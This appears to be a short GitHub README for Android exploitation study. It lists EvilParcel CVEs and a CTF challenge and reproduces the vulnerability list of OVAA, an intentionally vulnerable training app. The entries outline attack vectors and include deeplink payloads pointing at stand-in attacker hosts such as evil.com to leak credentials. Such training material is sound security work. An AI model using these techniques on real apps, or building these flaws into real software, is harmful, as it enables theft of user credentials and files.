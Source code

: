 # androidpwn
# EvilParcel漏洞
CVE-2017-13288<br>
CVE-2017-13315<br>
Android Pwn De1taCTF BroadcastTest<br>

# OVAA (Oversecured Vulnerable Android App) 
https://github.com/oversecured/ovaa<br>
The detailed codes and description or proof of concept<br>

# List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on our blog.

1.Installation of an arbitrary login_url via deeplink oversecured://ovaa/login?url=http://evil.com/. Leads to the user's user name and password being leaked when they log in.<br>
2.Obtaining access to arbitrary content providers (not exported, but with the attribute android:grantUriPermissions="true") via deeplink oversecured://ovaa/grant_uri_permissions. The attacker's app needs to process oversecured.ovaa.action.GRANT_PERMISSIONS and pass intent to setResult(code, intent) with flags such as Intent.FLAG_GRANT_READ_URI_PERMISSION and the URI of the content provider.<br>
3.Vulnerable host validation when processing deeplink oversecured://ovaa/webview?url=....<br>
4.Opening arbitrary URLs via deeplink oversecured://ovaa/webview?url=http://evilexample.com. An attacker can use the vulnerable WebView setting WebSettings.setAllowFileAccessFromFileURLs(true) in the WebViewActivity.java file to steal arbitrary files by sending them XHR requests and obtaining their content.<br>
5.Access to arbitrary activities and acquiring access to arbitrary content providers in LoginActivity by supplying an arbitrary Intent object to redirect_intent.<br>
6.Theft of arbitrary files in MainActivity by intercepting an activity launch from Intent.ACTION_PICK and passing the URI to any file as data.<br>
7.Insecure broadcast to MainActivity containing credentials. The attacker can register a broadcast receiver with action oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA and obtain the user's data.<br>
8.Insecure activity launch in MainActivity with action oversecured.ovaa.action.WEBVIEW, containing the user's encrypted data in the query parameter token.
9.Deletion of arbitrary files via the insecure DeleteFilesSerializable deserialization object.<br>
10.Memory corruption via the MemoryCorruptionParcelable object.<br>
11.Memory corruption via the MemoryCorruptionSerializable object.<br>
12.Obtaining read/write access to arbitrary files in TheftOverwriteProvider via path-traversal in the value uri.getLastPathSegment().<br>
13.Obtaining access to app logs via InsecureLoggerService. Leak of credentials in LoginActivity Log.d("ovaa", "Processing " + loginData).<br>
14.Use of the hardcoded AES key in WeakCrypto.<br>
15.Arbitrary Code Execution in OversecuredApplication by launching code from third-party apps with no security checks.<br>
16.Use of very wide file sharing declaration for oversecured.ovaa.fileprovider content provider in root entry.<br>
17.Hardcoded credentials to a dev environment endpoint in strings.xml in test_url entry.<br>
18.Arbitrary code execution via a DEX library located in a world-readable/writable directory.<br>
